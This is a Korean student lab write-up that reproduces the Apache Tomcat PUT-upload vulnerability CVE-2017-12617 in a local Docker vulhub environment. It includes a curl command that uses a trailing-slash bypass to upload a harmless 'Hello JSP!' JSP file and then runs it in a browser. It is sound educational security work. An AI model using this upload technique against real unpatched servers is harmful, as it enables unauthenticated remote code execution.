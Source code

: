 # Apache Tomcat PUT Upload 취약점 (CVE-2017-12617)

## 화이트햇 스쿨 3기 35반 편정혜\_9212

---

## 취약점 정보

- **CVE ID**: CVE-2017-12617
- **취약점 설명**: Apache Tomcat 7.0.0 ~ 7.0.81 (Windows 환경)에서 HTTP PUT 메서드를 이용해 인증 없이 JSP 파일 업로드 및 실행이 가능합니다.
- **공격 방식**: HTTP PUT 메서드를 이용하여 JSP 파일 업로드 후 실행
- **영향**: 원격 코드 실행 (RCE)
- **공식 설명 링크**: [https://nvd.nist.gov/vuln/detail/CVE-2017-12617](https://nvd.nist.gov/vuln/detail/CVE-2017-12617)

---

## 환경 구축

- Docker
- docker-compose
- 테스트 브라우저: Chrome
- 터미널: CMD (또는 PowerShell)
- 운영체제: Windows 10

---

## 실행

### 1. 취약 환경 레포 클론

공식 kr-vulhub 저장소를 클론하거나, 직접 CVE-2017-12617 디렉토리를 생성합니다.

### 2. 컨테이너 빌드 및 실행

Docker를 이용하여 Tomcat 서버를 빌드 및 실행합니다.

`docker-compose up --build`

이후 http://localhost:8080으로 접속이 가능합니다.

### 3. shell.jsp 파일 업로드

PUT 메서드를 이용하여 JSP 파일을 업로드합니다.

`curl -v -X PUT "http://localhost:8080/shell.jsp/" --data-binary "<% out.println(\"Hello JSP!\"); %>"`

업로드가 정상적으로 완료되면 HTTP/1.1 201 Created 또는 204 No Content 응답을 받습니다.

### 4. 브라우저로 JSP 파일 실행

브라우저의 주소창에 다음 URL을 입력하여 업로드 된 파일을 실행합니다.

`http://localhost:8080/shell.jsp`

이 때, "Hello JSP!" 문구가 출력되면 PoC 성공입니다.

---

## 결론

이번 실습에서는 Apache Tomcat 7.0.81 버전의 PUT 메서드 취약점을 이용하여 인증 없이 JSP 파일을 업로드하고 실행하는 과정을 재현하였습니다.
Docker를 이용해 취약 환경을 구축하였으며, curl 명령어를 통해 shell.jsp 파일을 업로드하고 브라우저에서 직접 "Hello JSP!" 문구가 출력되는 것을 확인했습니다.
이를 통해 Tomcat 서버의 설정 미비가 심각한 보안 위협(RCE)으로 이어질 수 있음을 실습을 통해 검증할 수 있었습니다.

---

### github repository

- 35반 편정혜 github 레포: [https://github.com/rainyhye/kr-vulhub](https://github.com/rainyhye/kr-vulhub)
